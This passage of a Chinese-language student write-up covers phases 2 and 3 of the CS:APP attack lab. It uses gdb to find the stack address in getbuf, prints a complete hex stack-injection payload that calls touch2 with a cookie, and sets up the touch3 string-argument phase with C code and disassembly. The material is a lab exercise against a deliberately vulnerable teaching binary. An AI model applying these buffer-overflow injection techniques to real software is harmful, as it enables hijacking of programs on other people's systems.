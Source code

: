  下面再找开栈的位置即栈的起始位置：用gdb调试看rsp存的位置，在`4017f5`即开栈后的某个语句打断点
 ```
 Breakpoint 1, getbuf () at buf.c:14
14	buf.c: No such file or directory.

(gdb) print $rsp
$1 = (void *) 0x5560fb88
 ```
 ``0x5560fb88``就是开栈的位置（同时我们也知道了开栈前的初始位置是`0x5560fbc0`，phase3用到），故注入：
 ```
 (a2.txt)
48 c7 c7 12 7f 1e 6a 68
33 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
88 fb 60 55
 ```
 下同phase1，通过

### Phase 3
第三阶段还是代码注入攻击，但是是要传递字符串作为参数。

ctarget文件中函数hexmatch和touch3的C代码如下：
```c
int hexmatch(unsigned val, char *sval){
	char cbuf[110];
	/* Make position of check string unpredictable */
	char *s = cbuf + random() % 100;
	sprintf(s, "%.8x", val);
	return strncmp(sval, s, 9) == 0;
}
void touch3(char *sval){
	vlevel = 3; /* Part of validation protocol */
	if (hexmatch(cookie, sval)) {
		printf("Touch3!: You called touch3(\"%s\")\n", sval);
		validate(3);
		} else {
		printf("Misfire: You called touch3(\"%s\")\n", sval);
		fail(3);
	}
	exit(0);
}
```
你的任务是让CTARGET执行touch3而不要返回到test。要使touch3以为你传递你的cookie的字符串表示作为它的参数。

```
(gdb) disas touch3
Dump of assembler code for function touch3:
   0x0000000000401907 <+0>:	push   %rbx
   0x0000000000401908 <+1>:	mov    %rdi,%rbx
(···)
``` 
可知touch3的起始位置是`0x401907`
